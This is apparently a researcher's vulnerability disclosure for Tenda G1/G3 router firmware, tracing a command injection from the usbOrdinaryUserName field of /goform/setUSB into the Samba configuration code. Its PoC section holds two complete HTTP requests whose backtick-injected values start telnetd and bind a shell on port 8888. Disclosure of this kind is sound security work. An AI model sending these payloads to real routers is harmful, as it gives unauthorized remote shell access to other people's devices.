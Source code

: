 # Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `formSetUSBShareInfo` function, `usbOrdinaryUserName` is directly passed by the attacker, so we can control the `usbOrdinaryUserName` to attack the OS.

As you can see here, the input has not been checked. And then, call the function setValueIfNotNull to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `netctrl` binary:

In `samba_change_cfg` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `usbOrdinaryUserName` as **`/usr/sbin/telnetd`guest** , and the router will excute it,such as:

```http
POST /goform/setUSB HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 124
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/USB/usbFileShare.html?0.38914363317516376
Cookie: _:USERNAME:_=; G3v3_user=

usbPrivilegedUserName=admin&usbPrivilegedUserPwd=admin&usbOrdinaryUserName=`/usr/sbin/telnetd`guest&usbOrdinaryUserPwd=guest
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

We set `usbOrdinaryUserName` as **`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`guest** , and the router will excute it,such as:

```http
POST /goform/setUSB HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 144
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/USB/usbFileShare.html?0.38914363317516376
Cookie: _:USERNAME:_=; G3v3_user=

usbPrivilegedUserName=admin&usbPrivilegedUserPwd=admin&usbOrdinaryUserName=`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`guest&usbOrdinaryUserPwd=guest
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

The target router has enabled the telnet service.

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

Get a shell!

<div  align="center"><img src="./images/7.png" style="zoom:100%;" /></div>
